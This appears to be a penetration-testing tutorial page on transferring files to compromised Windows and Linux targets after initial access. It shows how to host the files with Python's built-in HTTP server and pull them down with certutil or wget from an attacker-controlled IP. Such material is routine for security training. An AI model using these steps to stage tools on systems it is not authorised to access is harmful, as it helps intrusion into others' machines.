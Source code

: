 # 4 - Transferring Files to Windows & Linux Targets

## <mark style="color:red;">Setting Up A Web Server With Python</mark>

* After obtaining initial access to a target system, you will need to transfer files to the target system.
* In some cases, you will not have access to the target system via a Meterpreter session, and as a result, you will need to use the inbuilt OS specific utilities to facilitate the transfer of files from your system to the target system.
* This process utilizes a two-step approach, where you will need to host the files you want to transfer on a web server and download the files hosted on the web server to the target system.

### **Setting Up a Web Server With Python**

* Python comes with a built-in module known as <mark style="color:yellow;">SimpleHTTPServer</mark> (Python2) and <mark style="color:yellow;">http.server</mark> (Python3), that can be used to facilitate a simple HTTP server that gives you standard GET and HEAD request handlers.
* This module can be used to host files in any directory of your system. And can be implemented through a single command in your terminal.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
python -m SimpleHTTPServer <localPort> #Set up a python2 web server
python3 -m http.server <localPort> #Set up a python3 web server
```
{% endcode %}



## <mark style="color:red;">Transferring Files To Windows Targets</mark>

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
cmd > certutil -urlcache -f http://<localIP>/<file> <newNameFile> #Download a file on Windows with certutil
```
{% endcode %}

## <mark style="color:red;">Transferring Files To Linux Targets</mark>

### **Practical Demonstration**

```
shell > wget http://<localIP>/<file> #Download a file on Linux using wget
```



